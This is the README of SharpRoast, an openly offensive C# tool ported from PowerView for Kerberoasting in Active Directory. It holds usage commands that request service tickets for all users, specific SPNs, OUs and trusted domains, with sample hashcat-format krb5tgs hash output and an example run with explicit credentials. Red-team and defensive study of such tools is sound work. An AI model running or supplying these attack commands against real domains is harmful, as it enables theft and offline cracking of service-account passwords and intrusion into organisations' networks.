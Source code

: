 # SharpRoast

----

SharpRoast is a C# port of various [PowerView's Kerberoasting functionality](https://github.com/PowerShellMafia/PowerSploit/blob/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1#L2574-L2774). The [KerberosRequestorSecurityToken.GetRequest Method()](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest(v=vs.110).aspx) method was contributed to PowerView by [@machosec](https://twitter.com/machosec). The hashes are output in [hashcat](https://hashcat.net/hashcat/) format.

[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SharpRoast is licensed under the BSD 3-Clause license.

## Usage

Roast all users in the current domain:

    C:\Temp>SharpRoast.exe all
    SamAccountName         : harmj0y
    DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : asdf/asdfasdf
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

    SamAccountName         : sqlservice
    DistinguishedName      : CN=SQL,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : MSSQLSvc/SQL.testlab.local
    Hash                   : $krb5tgs$23$*$testlab.local$MSSQLSvc/SQL.testlab.local*$9994D1...

    ...

Roast a specific SPN:

    C:\Temp>SharpRoast.exe "asdf/asdfasdf"
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

Roast a specific user in the current domain:

    C:\Temp>SharpRoast.exe harmj0y
    SamAccountName         : harmj0y
    DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : asdf/asdfasdf
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

Roast users from a specified OU in the current domani:

    C:\Temp>SharpRoast.exe "OU=TestingOU,DC=testlab,DC=local"
    SamAccountName         : testuser2
    DistinguishedName      : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
    ServicePrincipalName   : service/host
    Hash                   : $krb5tgs$23$*$testlab.local$service/host*$08A6462...

Roast a specific specific SPN in another (trusted) domain:

    C:\Temp\>SharpRoast.exe "MSSQLSvc/SQL@dev.testlab.local"
    Hash                   : $krb5tgs$23$*user$DOMAIN$MSSQLSvc/SQL@dev.testlab.local*$9994D148...
    
Roast all users in another (trusted) domain:

    C:\Temp>SharpRoast.exe "LDAP://DC=dev,DC=testlab,DC=local"
    SamAccountName         : jason
    DistinguishedName      : CN=jason,CN=Users,DC=dev,DC=testlab,DC=local
    ServicePrincipalName   : test/test
    Hash                   : $krb5tgs$23$*$dev.testlab.local$test/test*$9129566...

Any of these commands also accept a [domain.com\user] [password] for to roast with explicit credentials. For example:

    C:\Temp>SharpRoast.exe harmj0y "testlab.local\dfm" "Password123!"
    SamAccountName         : harmj0y
    DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : asdf/asdfasdf
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...


## Compile Instructions

We are not planning on releasing binaries for SharpRoast, so you will have to compile yourself :)

SharpRoast has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
